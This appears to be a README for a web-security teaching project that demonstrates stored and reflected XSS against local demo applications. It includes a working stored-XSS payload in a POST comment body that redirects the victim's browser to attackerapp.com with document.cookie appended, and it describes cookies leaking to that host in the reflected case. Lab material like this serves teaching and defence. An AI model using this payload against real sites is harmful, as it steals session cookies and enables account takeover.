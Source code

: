# SecuringWebApplications
## 1. Persistent XSS Atack
Application: storedXssAttack1
a. Post a comment to the the url 

      URL:'http://localhost:8080/storedXssAttack1/Comment'

      Method : POST

      Request Body

          comment : <script>window.location='http://attackerapp.com/?cookie='+document.cookie</script>


b. Get the comment from the url
http://localhost:8080/storedXssAttack1/Comment

## 2. Non-Persistent XSS Attack
Applications: datingapp, myCommerce

a. Open the url 'http://localhost:8080/datingapp/' and submit the registration form, you can observe that the cookies of myCommerce application are shared with attackerapp.com.
`     

